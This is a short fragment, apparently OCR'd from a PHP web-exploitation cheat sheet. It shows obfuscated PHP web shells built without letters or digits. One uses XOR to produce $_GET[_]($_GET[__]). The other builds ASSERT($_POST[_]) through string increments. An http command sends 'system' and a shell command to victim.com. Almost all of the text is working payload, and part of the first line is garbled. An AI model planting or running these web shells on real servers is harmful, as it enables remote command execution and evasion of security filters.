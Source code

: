```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```

### Perl like

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

